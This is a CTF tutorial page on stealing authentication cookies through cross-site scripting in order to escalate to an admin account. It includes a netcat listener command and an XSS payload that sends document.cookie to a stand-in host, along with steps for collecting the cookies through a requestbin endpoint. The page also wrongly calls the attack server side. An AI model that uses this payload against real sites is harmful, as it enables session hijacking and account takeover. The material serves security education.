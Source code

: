 ```yaml
---
description: >-
  Exploiting web application vulnerabilities to steal authentication cookies and
  escalate privilege or assume identity of another user
---
```


# Stealing Cookies

## Overview

Many websites use [cookies](https://kb.iu.edu/d/agwm) to authenticate users or to keep track of users across the application after authentication has occurred. Cookies can correlate to a specific user id, and lets the server know what authority the user has to access resources or make changes. 

Often, the use of stealing cookies in the context of a CTF involves escalating privilege from a normal user account to that of an admin. This could involve stealing the cookie of an authenticated admin in order to gain the privilege of that user. To do  so, one might exploit a cross site scripting attack, or XSS, in which an administrator or other user can be tricked to clicking a link which sends the attacker his or her cookies. Read more about XSS [here](./).

## Guide to Stealing Cookies

Stealing cookies is a _server side_ attack. This means that aside from the CTF player, another user has to be interacted with to trigger the vulnerability. In CTF context, this   could mean interacting with the CTF organizers/facilitators, or it could mean the organizers have set up some kind of automated process. An example of an automated process would be automated actions on [Selenium](https://www.selenium.dev/). 

### Step 1, Find a [XSS Vulnerability ](./)

To find an [XSS vulnerability](./), you often need to test input fields on a webpage. These can be comment boxes, input forms, or anywhere else you can submit text to the server. Below are some good resources for testing various inputs which _might_ trigger an [XSS vulnerability](./). 

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" caption="PortSwigget Cross Site Scripting Cheat Sheet" %}

{% embed url="https://owasp.org/www-community/xss-filter-evasion-cheatsheet" caption="OWASP XSS Filter Cheat Sheet" %}

### Step 2, Create Payload

To effectively steal another user's cookie, your payload needs to do two things; it needs to collect a session cookie, and it needs to display the cookie so you can see it. The later of the two steps is different depending if you are competing in a local network CTF or one hosted over the internet. 

#### Local Network Payload

A local network CTF can be defined as a CTF in which the target CTF application and your attack machine are on the same network. These can include a [VulnHub](../../../types/boot-2-root/vulnhub.md) [boot 2 root](../../../types/boot-2-root/) challenge where you are running the CTF and your attack machine in the same virtualization software. Payloads in a local network need to send cookies _directly_  to your attack machine. An easy way to accomplish this is with netcat. 

#### Netcat 

Start a netcat listener on port 80 . Once started, the payload for the XSS exploit should point directly to your attack machine's local ip and port 80.

```bash
nc -lnvp 80
```

An example payload might look like this. \([source](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)\)

```markup
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
```

#### Stealing Cookies over the Internet

When competing in an online event, a local netcat listener will not work. Instead of directing the cookie locally, you can direct it to a resource you own on the internet. One of these best ways this can be done is with requestbin and pipedream

#### Sign up for a free requestbin account

{% embed url="https://requestbin.com/" %}

Once signed in, your first endpoint will be automatically generated for you. On the middle of the endpoint dashboard, select the create http source button. This will take you over to pipedream, a site where you can see live requests to your endpoint url. 

![](../../../.gitbook/assets/screen-shot-2020-06-15-at-9.47.14-pm.png)

On the pipedream dashboard, you will see a new endpoint url. This is the target that you will want to use in your XSS payload when stealing cookies, however, instead of a netcat listener receiving the connection request and credentials, you will see requests through the pipedream dashboard.

### Step 3: Triggering the Exploit

The final step after identifying an XSS vulnerability, crafting the payload, and preparing to receive a connection, is to get another users to trigger the exploit. Depending on the CTF, this might be done by "submitting" your payload to the CTF server, and some automated process using software like selenium might trigger the XSS and send the request back to your endpoint.  

